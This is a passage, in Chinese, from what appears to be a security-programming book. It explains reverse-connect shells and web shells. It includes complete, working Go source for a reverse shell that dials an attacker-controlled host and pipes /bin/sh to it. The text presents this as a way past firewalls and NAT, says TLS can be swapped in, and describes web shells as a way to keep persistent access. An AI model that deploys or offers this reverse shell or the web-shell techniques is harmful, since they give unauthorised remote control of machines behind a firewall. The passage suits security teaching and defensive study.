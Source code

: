 # 创建反向绑定 shell

反向绑定 shell 解决了防火墙和 NAT 问题。它不是监听传入连接，而是主动拨号到一个远程服务器（一个你控制并且在监听的服务器）。当你在你的计算机上收到连接时，你就拥有了一个运行在防火墙后面的计算机上的 shell。

这个例子使用了明文 TCP 套接字，但你可以轻松地将 `net.Dial()` 替换为 `tls.Dial()`。第六章，*加密学*，提供了 TLS 客户端和服务器的示例，如果你想修改这些示例以使用 TLS。

```
// Call back to a remote server and open a shell session
package main

import (
   "fmt"
   "log"
   "net"
   "os"
   "os/exec"
)

var shell = "/bin/sh"

func main() {
   // Handle command line arguments
   if len(os.Args) < 2 {
      fmt.Println("Usage: " + os.Args[0] + " <remoteAddress>")
      fmt.Println("Example: " + os.Args[0] + " 192.168.0.27:9999")
      os.Exit(1)
   }

   // Connect to remote listener
   remoteConn, err := net.Dial("tcp", os.Args[1])
   if err != nil {
      log.Fatal("Error connecting. ", err)
   }
   log.Println("Connection established. Launching shell.")

   command := exec.Command(shell)
   // Take advantage of reader/writer interfaces to tie inputs/outputs
   command.Stdin = remoteConn
   command.Stdout = remoteConn
   command.Stderr = remoteConn
   command.Run()
} 
```

# 创建 Web shell

Web shell 类似于绑定 shell，但是它不是作为原始的 TCP 套接字进行监听，而是作为 HTTP 服务器监听和通信。这是一种创建持久访问机器的有用方法。

Web shell 可能是必要的原因之一，是因为防火墙或其他网络限制。HTTP 流量可能与其他流量的处理方式不同。有时，`80` 和 `443` 端口是唯一可以通过防火墙的端口。一些网络可能会检查流量，确保只有格式为 HTTP 的请求可以通过。
